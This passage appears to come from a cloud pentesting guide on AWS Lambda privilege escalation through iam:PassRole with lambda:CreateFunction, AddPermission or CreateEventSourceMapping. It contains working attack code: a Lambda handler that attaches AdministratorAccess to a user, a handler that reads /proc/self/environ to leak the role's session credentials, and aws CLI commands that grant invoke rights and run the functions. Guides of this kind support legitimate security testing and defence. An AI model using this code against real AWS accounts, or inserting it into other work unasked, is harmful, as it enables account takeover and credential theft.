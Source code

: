 ```python
import boto3
def lambda_handler(event, context):
    client = boto3.client('iam')
    response = client.attach_user_policy(
        UserName='my_username',
        PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
    )
    return response
```

It is also possible to leak the lambda's role credentials without needing an external connection. This would be useful for **Network isolated Lambdas** used on internal tasks. If there are unknown security groups filtering your reverse shells, this piece of code will allow you to directly leak the credentials as the output of the lambda.

```python
def handler(event, context):
    sessiontoken = open('/proc/self/environ', "r").read()
    return {
        'statusCode': 200,
        'session': str(sessiontoken)
    }
```

```bash
aws lambda invoke --function-name <lambda_name> output.txt
cat output.txt
```

**Potential Impact:** Direct privesc to the arbitrary lambda service role specified.

{% hint style="danger" %}
Note that even if it might looks interesting **`lambda:InvokeAsync`** **doesn't** allow on it's own to **execute `aws lambda invoke-async`**, you also need `lambda:InvokeFunction`
{% endhint %}

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:AddPermission`

Like in the previous scenario, you can **grant yourself the `lambda:InvokeFunction`** permission if you have the permission **`lambda:AddPermission`**

```bash
# Check the previous exploit and use the following line to grant you the invoke permissions
aws --profile "$NON_PRIV_PROFILE_USER" lambda add-permission --function-name my_function \
   --action lambda:InvokeFunction --statement-id statement_privesc --principal "$NON_PRIV_PROFILE_USER_ARN"
```

**Potential Impact:** Direct privesc to the arbitrary lambda service role specified.

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:CreateEventSourceMapping`

Users with **`iam:PassRole`, `lambda:CreateFunction`, and `lambda:CreateEventSourceMapping`** permissions (and potentially `dynamodb:PutItem` and `dynamodb:CreateTable`) can indirectly **escalate privileges** even without `lambda:InvokeFunction`.\
They can create a **Lambda function with malicious code and assign it an existing IAM role**.
